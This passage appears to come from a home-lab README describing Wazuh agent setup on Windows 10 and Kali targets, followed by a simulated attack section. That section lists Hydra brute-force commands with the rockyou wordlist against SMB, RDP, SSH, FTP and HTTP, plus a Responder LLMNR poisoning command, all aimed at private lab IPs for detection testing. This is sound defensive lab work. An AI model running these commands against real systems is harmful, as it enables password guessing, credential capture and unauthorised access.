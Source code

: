 For script details, see [wazuh_setup.sh](../Scripts/wazuh_setup.sh).

## 6. Wazuh Agent Configuration
Wazuh agents were installed on the Windows 10 (192.168.254.150) and Kali Linux (192.168.254.140) targets to send logs to the Wazuh manager.

### Windows 10 Agent
1. **Install Agent**:
   - Download and install the Wazuh agent MSI package.
2. **Configure Agent**:
   - Copy [ossec_windows.conf](../Configs/wazuh/ossec_windows.xml) to `C:\Program Files (x86)\ossec-agent\ossec.conf`.
   - Monitors Windows Security Event Logs.
3. **Restart Agent**:
   ```bash
   net stop wazuh
   net start wazuh
   ```

### Kali Linux Agent
1. **Install Agent**:
   - Install the Wazuh agent via `apt`.
2. **Configure Agent**:
   - Copy [ossec_kali.conf](../Configs/wazuh/ossec_kali.xml) to `/var/ossec/etc/ossec.conf`.
   - Monitors `/var/log/auth.log` and `/var/log/vsftpd.log`.
3. **Restart Agent**:
   ```bash
   sudo systemctl restart wazuh-agent
   ```

## 7. Attack Simulation
Brute-force attacks were simulated from the Kali Linux attacker machine (192.168.254.130) using Hydra and Responder.

### Steps
1. **Run the Attack Script**:
   ```bash
   sudo ../scripts/attack_simulation.sh
   ```
   - **Windows 10 (192.168.254.150)**:
     - SMB: `hydra -l Administrator -P /usr/share/wordlists/rockyou.txt smb://192.168.254.150`
     - RDP: `hydra -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.254.150`
     - SSH: `hydra -l Administrator -P /usr/share/wordlists/rockyou.txt ssh://192.168.254.150`
     - LLMNR: `responder -I eth0 -wrf`
   - **Kali Linux (192.168.254.140)**:
     - SSH: `hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://192.168.254.140`
     - FTP: `hydra -l kali -P /usr/share/wordlists/rockyou.txt ftp://192.168.254.140`
     - HTTP: `hydra -l kali -P /usr/share/wordlists/rockyou.txt http-get://192.168.254.140`

2. **Verify Attacks**:
   - Check `/var/log/attack_simulation.log` for attack outputs.
